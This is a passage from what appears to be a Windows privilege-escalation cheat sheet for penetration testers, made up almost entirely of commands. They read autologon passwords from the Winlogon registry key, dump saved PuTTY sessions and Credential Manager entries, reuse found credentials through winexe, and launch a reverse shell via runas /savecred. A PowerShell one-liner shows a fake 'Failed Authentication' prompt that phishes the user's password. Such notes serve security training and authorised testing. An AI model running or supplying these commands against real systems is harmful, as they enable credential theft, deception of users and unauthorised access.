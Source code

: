 ```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

if you find anything you can connect to the target from kali machine with this command:

```
winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```

### <mark style="color:orange;">find putty session stored credentials</mark>

```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

### <mark style="color:orange;">search windows credential manager</mark>

```
cmdkey /list
```

to use windows "runas" feature to get a reverse shell:

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe 
```

### <mark style="color:orange;">phishing user for credential</mark>

```
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

or

```
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

### <mark style="color:orange;">log files</mark>

```
# IIS
C:\inetpub\logs\LogFiles\*
​
#Apache
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

### <mark style="color:orange;">OpenVPN credentials</mark>
